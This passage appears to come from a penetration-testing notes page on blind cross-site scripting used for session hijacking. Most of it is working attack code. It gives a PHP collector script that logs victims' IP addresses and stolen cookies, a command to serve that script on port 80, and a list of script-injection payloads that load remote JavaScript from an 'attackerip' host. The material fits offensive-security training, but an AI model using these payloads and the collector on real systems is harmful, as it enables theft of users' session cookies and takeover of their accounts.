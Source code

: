 #### 1.6.  Blind XSS: hijacking

##### Step 1

A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to. Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). 

**1.** Find the injection point. For that imaging a form with fields name, surname, username, profilepicture.... 

**2.** Find a payload that works. For that, have in the attacker server the following file index.php:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```


**3.** Have a php server listening:

```bash
sudo php -S 0.0.0.0:80
```

**4.** Use the field name (username, name, surname...) as `<custom.name>` when trying these payloads:

```html
"><script src="https://attackerip/<custom.name>"></script>
<script src="https://attackerip/<custom.name>"></script>
<script src=http://attackerip/<custom.name>></script>
'><script src=http://attackerip/<custom.name>></script>
"><script src=http://attackerip/<custom.name>></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://attackerip\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//attackerip");a.send();</script>
<script>$.getScript("http://attackerip/<custom.name>")</script>
```

If successful, you will see a connection in your php server like this:

![xss blind](../img/xss_blind_00.png)

Then, `profile` would be the vulnerable parameter.
